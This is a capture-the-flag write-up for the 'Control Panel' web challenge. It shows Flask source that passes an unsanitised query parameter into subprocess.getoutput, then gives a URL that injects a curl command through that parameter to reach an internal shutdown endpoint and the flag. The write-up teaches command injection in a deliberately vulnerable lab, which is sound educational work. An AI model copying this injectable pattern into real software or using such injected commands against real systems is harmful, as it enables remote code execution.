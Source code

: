 # Introduction
This is a rather simple web challange to get familliar with how to find paths and look into soruce code for how a function works

## Challange Discription

Agent, we've identified what appears to be ARIA's control panel. Luckily there's no authentication required to interact with it. Can you take down ARIA once and for all?
https://uscybercombine-s4-control-panel.chals.io/
File : [Source_Code](https://github.com/salarsalimi/CTF/tree/main/US%20Cyber%20Open%20Season%20IV/resources/control-panel/control-panel)

## Webpage 

After openning the dashboard we see it's a simple page that has 4 links each one making a request to same URL with a parameter

![](../assets/Control_Panel_1.PNG)

For example when we open first link we are sending this parameter like bellow:

![](../assets/Control_Panel_2.PNG)




## Step 1

End link seems to be important so it's time to take a look at source code to see how our parameter is working
From code bellow we see that the final link must be used with second parameter named **arg**

```python
from flask import Flask, render_template, request
from subprocess import getoutput

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    command = request.args.get("command")
    if not command:
        return render_template("index.html")
    
    arg = request.args.get("arg")
    if not arg:
        arg = ""

    if command == "list_processes":
        return getoutput("ps")
    elif command == "list_connections":
        return getoutput("netstat -tulpn")
    elif command == "list_storage":
        return getoutput("df -h")
    elif command == "destroy_humans":
        return getoutput("/www/destroy_humans.sh " + arg)
    
    return render_template("index.html")
```



## Step 2

We take a look at getoutput defenition in subprocces library to see how it works
- it seems like it is executing our commands 

![](../assets/Control_Panel_3.PNG)

So basically we have RCE but what command to execute ? 

## Step 3

Now that we know what parameter to use and that it has RCE but we must know what to give it too !!
For this we look in destroyer.py and see this lines of code in it:

```python
elif self.path == '/shutdown':
				resp_ok()
				self.wfile.write(get_json({'status': 'shutting down...'}))
				self.wfile.write(get_json({'status': 'SIVBGR{no-flag-4-u}'}))
				return
```

So we must call this url
> http://localhost:3000/shutdown 

We achive this with this url call :
> https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=curl%20-s%20localhost:3000/shutdown

![](../assets/Control_Panel_4.PNG)
